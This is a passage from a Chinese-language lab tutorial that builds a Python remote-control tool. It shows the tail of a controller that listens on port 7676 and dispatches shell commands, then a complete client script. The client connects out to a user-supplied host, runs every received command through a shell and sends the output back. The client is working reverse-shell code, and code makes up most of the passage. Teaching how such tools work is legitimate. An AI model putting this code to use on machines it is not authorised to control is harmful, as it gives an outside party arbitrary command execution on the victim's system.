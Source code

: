 ```
def main():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',7676))
    s.listen(1024)

    t = threading.Thread(target=wait_connect,args=(s,))
    t.start()

    while True:
        if len(clientList) > 0:
            select_client()  # 选择一个客户端
            shell_ctrl(curClient[0],curClient[1]) #处理shell命令



if __name__ == '__main__':
    main()
```

#### 4.2 被控端

在 `/home/shiyanlou/server` 目录下新建 `client.py`文件，并向其中写入如下代码：

```
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import socket
import subprocess
import argparse
import sys
import time
import threading

def connectHost(ht,pt):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((ht,int(pt)))
    while True:
        data = sock.recv(1024)
        data = data.decode('utf-8')
        comRst = subprocess.Popen(data,shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
        m_stdout, m_stderr = comRst.communicate()
        sock.send(m_stdout.decode(sys.getfilesystemencoding()).encode('utf-8'))
        time.sleep(1)
    sock.close()


def main():
    parser = argparse.ArgumentParser()  #命令行参数解析对象
    parser.add_argument('-H',dest='hostName',help='Host Name')
    parser.add_argument('-p',dest='conPort',help='Host Port')

    args = parser.parse_args()          #解析命令行参数
    host = args.hostName
    port = args.conPort

    if host == None and port == None:
        print(parser.parse_args(['-h']))
        exit(0)

    connectHost(host,port)              #连接到控制端


```